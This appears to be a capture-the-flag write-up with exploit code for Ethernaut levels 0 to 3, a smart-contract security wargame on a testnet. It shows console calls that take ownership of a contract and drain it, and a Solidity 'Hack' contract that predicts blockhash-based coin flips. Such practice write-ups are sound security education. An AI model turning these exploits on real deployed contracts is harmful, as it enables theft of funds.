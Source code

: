 # Levels

## Level 00

https://ethernaut.openzeppelin.com/level/0

```Javascript
await contract.password()
await contract.authenticate("ethernaut0")
```

https://mumbai.polygonscan.com/tx/0xb479fa5cda3731d1ceb34cd1b7788f30022e31d63eaf4ebc63351c22aa3f3806

## Level 01

https://ethernaut.openzeppelin.com/level/1

```javascript
await contract.owner() 
await contract.contributions("0x2a24869323C0B13Dff24E196Ba072dC790D52479")
await contract.contribute.sendTransaction({from: player, value: toWei('0.0009')})

await sendTransaction({from: player, to: contract.address, value: toWei('0.0000000001')})
await contract.withdraw()
```

## Level 02

https://ethernaut.openzeppelin.com/level/2

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Fallout {
    function Fal1out() external payable;
}
```

https://mumbai.polygonscan.com/tx/0x0473d27f57f28a8d48ecfecef2faf4e89f82cd3a79e6af2675faefd0761e44d4

## Level 03

https://ethernaut.openzeppelin.com/level/3

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface ICoinFlip {
    function consecutiveWins() external view returns (uint256);
    function flip(bool) external returns (bool);
}

contract Hack {
    ICoinFlip private immutable coinflip;
    uint256 private constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _address) {
        coinflip = ICoinFlip(_address);
    }

    function flip() external {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        coinflip.flip(side);
    }    
}
```

call `flip()` until `consecutiveWins` is 10
